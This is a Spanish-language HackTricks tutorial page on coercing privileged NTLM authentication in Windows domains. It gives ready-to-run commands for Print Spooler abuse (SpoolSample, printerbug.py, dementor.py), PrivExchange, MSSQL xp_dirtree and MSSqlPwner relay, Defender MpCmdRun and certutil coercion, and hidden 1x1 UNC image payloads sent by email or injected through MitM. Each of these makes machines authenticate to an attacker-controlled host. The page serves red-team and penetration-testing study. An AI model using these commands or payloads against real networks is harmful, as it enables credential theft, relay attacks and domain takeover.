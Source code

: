 # Forzar la Autenticación Privilegiada NTLM

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos de github.

</details>
{% endhint %}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) es una **colección** de **disparadores de autenticación remota** codificados en C# utilizando el compilador MIDL para evitar dependencias de terceros.

## Abuso del Servicio de Spooler

Si el servicio _**Print Spooler**_ está **habilitado**, puedes usar algunas credenciales de AD ya conocidas para **solicitar** al servidor de impresión del Controlador de Dominio una **actualización** sobre nuevos trabajos de impresión y simplemente indicarle que **envíe la notificación a algún sistema**.\
Ten en cuenta que cuando la impresora envía la notificación a sistemas arbitrarios, necesita **autenticarse contra** ese **sistema**. Por lo tanto, un atacante puede hacer que el servicio _**Print Spooler**_ se autentique contra un sistema arbitrario, y el servicio **usará la cuenta de computadora** en esta autenticación.

### Encontrar Servidores Windows en el dominio

Usando PowerShell, obtén una lista de máquinas Windows. Los servidores suelen ser prioridad, así que enfoquémonos allí:
```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```
### Encontrar servicios de Spooler escuchando

Usando un @mysmartlogin (Vincent Le Toux) ligeramente modificado [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), verifica si el Servicio de Spooler está escuchando:
```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```
También puedes usar rpcdump.py en Linux y buscar el protocolo MS-RPRN.
```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```
### Pida al servicio que se autentique contra un host arbitrario

Puede compilar[ **SpoolSample desde aquí**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**
```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```
o usa [**dementor.py de 3xocyte**](https://github.com/NotMedic/NetNTLMtoSilverTicket) o [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) si estás en Linux
```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```
### Combinando con Delegación No Restringida

Si un atacante ya ha comprometido una computadora con [Delegación No Restringida](unconstrained-delegation.md), el atacante podría **hacer que la impresora se autentique contra esta computadora**. Debido a la delegación no restringida, el **TGT** de la **cuenta de computadora de la impresora** será **guardado en** la **memoria** de la computadora con delegación no restringida. Como el atacante ya ha comprometido este host, podrá **recuperar este ticket** y abusar de él ([Pass the Ticket](pass-the-ticket.md)).

## Autenticación Forzada RCP

{% embed url="https://github.com/p0dalirius/Coercer" %}

## PrivExchange

El ataque `PrivExchange` es el resultado de un defecto encontrado en la **función `PushSubscription` del Exchange Server**. Esta función permite que el servidor de Exchange sea forzado por cualquier usuario de dominio con un buzón para autenticarse en cualquier host proporcionado por el cliente a través de HTTP.

Por defecto, el **servicio de Exchange se ejecuta como SYSTEM** y se le otorgan privilegios excesivos (específicamente, tiene **privilegios WriteDacl en el dominio antes de la Actualización Acumulativa de 2019**). Este defecto puede ser explotado para habilitar el **reenvío de información a LDAP y posteriormente extraer la base de datos NTDS del dominio**. En casos donde el reenvío a LDAP no es posible, este defecto aún puede ser utilizado para reenviar y autenticar a otros hosts dentro del dominio. La explotación exitosa de este ataque otorga acceso inmediato al Administrador de Dominio con cualquier cuenta de usuario de dominio autenticada.

## Dentro de Windows

Si ya estás dentro de la máquina Windows, puedes forzar a Windows a conectarse a un servidor utilizando cuentas privilegiadas con:

### Defender MpCmdRun
```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```
### MSSQL
```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```
[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)
```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```
O utiliza esta otra técnica: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

Es posible utilizar certutil.exe lolbin (binario firmado por Microsoft) para forzar la autenticación NTLM:
```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```
## HTML injection

### Via email

Si conoces la **dirección de correo electrónico** del usuario que inicia sesión en una máquina que deseas comprometer, podrías simplemente enviarle un **correo electrónico con una imagen de 1x1** como
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
y cuando lo abra, intentará autenticarse.

### MitM

Si puedes realizar un ataque MitM a una computadora e inyectar HTML en una página que él visualizará, podrías intentar inyectar una imagen como la siguiente en la página:
```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```
## Cracking NTLMv1

Si puedes capturar [desafíos NTLMv1 lee aquí cómo crackearlos](../ntlm/#ntlmv1-attack).\
_Recuerda que para crackear NTLMv1 necesitas establecer el desafío de Responder a "1122334455667788"_

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
